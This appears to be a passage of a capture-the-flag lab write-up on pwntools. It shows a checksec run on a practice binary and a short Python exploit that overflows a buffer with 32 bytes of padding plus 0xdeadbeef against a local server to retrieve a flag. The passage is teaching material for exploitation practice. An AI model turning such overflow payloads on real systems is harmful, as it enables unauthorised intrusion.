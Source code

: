 #### Please use checksec on serve\_test. Is there a stack canary?

```bash
checksec serve_test
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-37-23.png>)

{% hint style="success" %}
`Y`
{% endhint %}

#### I have run my exploit against my own server on port 1336

```python
from pwn import *

connect = remote('127.0.0.1', sys.argv[1])
print connect.recvuntil('Give me deadbeef: ')
payload = "A" * 32 + p32(0xdeadbeef)
connect.sendline(payload)
print connect.recvall()
```

```bash
./serve_test &   
python pwn_networking.py 1336
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-54-26.png>)

#### What is the flag?

```bash
python pwn_networking.py 1337
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-52-16.png>)

## Task 5 Shellcraft
